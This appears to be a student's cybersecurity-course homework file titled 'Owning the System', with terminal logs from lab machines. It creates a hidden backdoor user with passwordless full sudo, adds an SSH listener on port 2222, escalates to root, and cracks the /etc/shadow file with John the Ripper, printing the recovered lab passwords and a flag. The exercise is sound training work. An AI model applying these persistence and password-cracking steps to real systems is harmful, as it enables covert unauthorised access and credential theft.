

## **Week 6 Homework Submission File: Advanced Bash - Owning the System**

Please edit this file by adding the solution commands on the line below the prompt.

Save and submit the completed file for your homework submission.

**Step 1: Shadow People**

1. Create a secret user named sysd. Make sure this user doesn&#39;t have a home folder created:
2. Give your secret user a password:
3. Give your secret user a system UID \&lt; 1000:
4. Give your secret user the same GID:
sysadmin@UbuntuDesktop:~$ sudo addgroup --gid 888 shadow\_people

Adding group `shadow\_people&#39; (GID 888) ...

Done.

sysadmin@UbuntuDesktop:~$ sudo adduser --uid 888 --gid 888 --no-create-home sysd

Adding user `sysd&#39; ...

Adding new user `sysd&#39; (888) with group `shadow\_people&#39; ...

Not creating home directory `/home/sysd&#39;.

Enter new UNIX password:

Retype new UNIX password:

passwd: password updated successfully

Changing the user information for sysd

Enter the new value, or press ENTER for the default

Full Name []:

Room Number []:

Work Phone []:

Home Phone []:

Other []:

Is the information correct? [Y/n] y

sysadmin@UbuntuDesktop:~$ id sysd

uid=888(sysd) gid=888(shadow\_people) groups=888(shadow\_people)

1. Give your secret user full sudo access without the need for a password:

sysd (ALL:ALL) NOPASSWD:ALL

1. Test that sudo access works without your password:
 sysadmin@UbuntuDesktop:~$ sudo -lU sysd

Matching Defaults entries for sysd on UbuntuDesktop:

env\_reset, mail\_badpass,

secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysd may run the following commands on UbuntuDesktop:

(ALL : ALL) NOPASSWD: ALL

sysd@UbuntuDesktop:/home/sysadmin$ sudo -l

Matching Defaults entries for sysd on UbuntuDesktop:

env\_reset, mail\_badpass,

secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysd may run the following commands on UbuntuDesktop:

(ALL : ALL) ALL

(ALL : ALL) NOPASSWD: ALL

sysd@UbuntuDesktop:/home/sysadmin$ sudo adduser sysd\_test

Adding user `sysd\_test&#39; ...

Adding new group `sysd\_test&#39; (1014) ...

Adding new user `sysd_test&#39; (1012) with group `sysd\_test&#39; ...

Creating home directory `/home/sysd\_test&#39; ...

Copying files from `/etc/skel&#39; ...

Enter new UNIX password:

Retype new UNIX password:

passwd: password updated successfully

Changing the user information for sysd\_test

Enter the new value, or press ENTER for the default

Full Name []:

Room Number []:

Work Phone []:

Home Phone []:

Other []:

Is the information correct? [Y/n] y

sysd@UbuntuDesktop:/home/sysadmin$ sudo deluser sysd\_test

Removing user `sysd\_test&#39; ...

Warning: group `sysd\_test&#39; has no more members.

Done.

**Step 2: Smooth Sailing**

1. Edit the sshd\_config file:

 

**Step 3: Testing Your Configuration Update**

1. Restart the SSH service:

root@UbuntuDesktop:/home/sysadmin# systemctl restart sshd

You have new mail in /var/mail/root

root@UbuntuDesktop:/home/sysadmin# systemctl status sshd

● ssh.service - OpenBSD Secure Shell server

Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)

Active: active (running) since Tue 2021-07-13 07:18:55 EDT; 12s ago

Process: 1768 ExecReload=/bin/kill -HUP $MAINPID (code=exited, status=0/SUCCESS)

Process: 1759 ExecReload=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)

Process: 4632 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)

Main PID: 4639 (sshd)

Tasks: 1 (limit: 4675)

CGroup: /system.slice/ssh.service

└─4639 /usr/sbin/sshd -D

Jul 13 07:18:55 UbuntuDesktop systemd[1]: Starting OpenBSD Secure Shell server...

Jul 13 07:18:55 UbuntuDesktop sshd[4639]: Server listening on 0.0.0.0 port 2222.

Jul 13 07:18:55 UbuntuDesktop systemd[1]: Started OpenBSD Secure Shell server.

Jul 13 07:18:55 UbuntuDesktop sshd[4639]: Server listening on :: port 2222.

Jul 13 07:18:55 UbuntuDesktop sshd[4639]: Server listening on 0.0.0.0 port 22.

Jul 13 07:18:55 UbuntuDesktop sshd[4639]: Server listening on :: port 22.

root@UbuntuDesktop:/home/sysadmin#

1. Exit the root account:

exit

1. SSH to the target machine using your sysd account and port 2222:

sysd@UbuntuDesktop:/home/sysadmin$ ssh sysd@192.168.6.105 -p 2222

1. Use sudo to switch to the root user:

sysd@scavenger-hunt:/$ sudo su root

[sudo] password for sysd:

You found flag\_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0

root@scavenger-hunt:/#

**Step 4: Crack All the Passwords**

1. SSH back to the system using your sysd account and port 2222:

sysd@UbuntuDesktop:/home/sysadmin$ ssh sysd@192.168.6.105 -p 2222

Could not create directory &#39;/home/sysd/.ssh&#39;.

The authenticity of host &#39;[192.168.6.105]:2222 ([192.168.6.105]:2222)&#39; can&#39;t be established.

ECDSA key fingerprint is SHA256:uoOQp+ntlpFyltJnig+s1pq8G7pPX/ZHm09UFe3vXi4.

Are you sure you want to continue connecting (yes/no)? y

Please type &#39;yes&#39; or &#39;no&#39;: yes

Failed to add the host to the list of known hosts (/home/sysd/.ssh/known\_hosts).

sysd@192.168.6.105&#39;s password:

Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86\_64)

1. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

sysd@scavenger-hunt:/$ sudo su root

[sudo] password for sysd:

You found flag\_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0

root@scavenger-hunt:/etc# john ../etc/shadow

Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])

Press &#39;q&#39; or Ctrl-C to abort, almost any other key for status

0g 0:00:00:18 48% 1/3 0g/s 478.9p/s 478.9c/s 478.9C/s Drbabbage..bAbBaGe

Session aborted

root@scavenger-hunt:/etc# john ../etc/shadow

Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])

Press &#39;q&#39; or Ctrl-C to abort, almost any other key for status

computer (stallman)

freedom (babbage)

123456 (sysd)

trustno1 (mitnik)

dragon (lovelace)

lakers (turing)

passw0rd (sysadmin)

Goodluck! (student)

8g 0:00:03:32 100% 2/3 0.03768g/s 531.5p/s 545.0c/s 545.0C/s Missy!..Jupiter!

Use the &quot;--show&quot; option to display all of the cracked passwords reliably

Session completed

root@scavenger-hunt:/etc# john --show ../etc/shadow

sysadmin:passw0rd:18387:0:99999:7:::

student:Goodluck!:18387:0:99999:7:::

mitnik:trustno1:18387:0:99999:7:::

babbage:freedom:18387:0:99999:7:::

lovelace:dragon:18387:0:99999:7:::

stallman:computer:18387:0:99999:7:::

turing:lakers:18387:0:99999:7:::

sysd:123456:18821:0:99999:7:::

8 password hashes cracked, 0 left

root@scavenger-hunt:/etc#